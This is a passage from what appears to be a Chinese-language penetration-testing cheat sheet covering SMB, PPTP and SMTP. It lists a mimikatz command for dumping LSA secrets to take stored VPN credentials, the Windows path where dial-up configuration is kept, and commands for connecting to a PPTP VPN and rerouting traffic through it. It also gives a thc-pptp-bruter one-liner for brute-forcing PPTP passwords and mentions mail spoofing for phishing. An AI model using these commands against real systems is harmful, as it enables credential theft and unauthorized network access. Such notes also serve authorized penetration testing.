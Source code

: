 **利用 NTLM 值破解 SMB**

主要依靠钓鱼,不是很适合在实战中使用,内容见 https://www.hackingarticles.in/4-ways-capture-ntlm-hashes-network/

---

# PPTP

**文章**
- [渗透技巧——PPTP口令的获取与爆破](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-PPTP%E5%8F%A3%E4%BB%A4%E7%9A%84%E8%8E%B7%E5%8F%96%E4%B8%8E%E7%88%86%E7%A0%B4/)

**获得PPTP 口令**

Windows系统拨号和宽带连接的配置信息存储在固定位置，路径如下： `%APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk` 查看该文件即可获得 PPTP 连接的配置信息，包括服务器 IP，不包含连接用户名和口令

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

**windows 命令行下连接 PPTP VPN**
```
rasdial "VPN Connection" username pass

# 关闭连接
rasphone -h "VPN Connection"
```

**kali 连接 PPTP VPN**
```bash
pptpsetup --create vpn --server xx.xx.xx.xx --username username --password pass --encrypt --start

# 将默认路由表修改为远程
route del default
route add default gw xx.xx.xx.xx
```

**暴力破解 PPTP 口令**

- 工具
    - [BlackArch/thc-pptp-bruter](https://github.com/BlackArch/thc-pptp-bruter) - kali 默认自带
        ```
        cat wordlist | thc-pptp-bruter -u username xx.xx.xx.xxx
        ```
    - [pptp_password_hack.py](https://github.com/3gstudent/Homework-of-Python/blob/master/pptp_password_hack.py)

---

# SMTP

**概述**

SMTP 为邮件协讫,默认端口 25.经常用来邮箱伪造,钓鱼攻击.
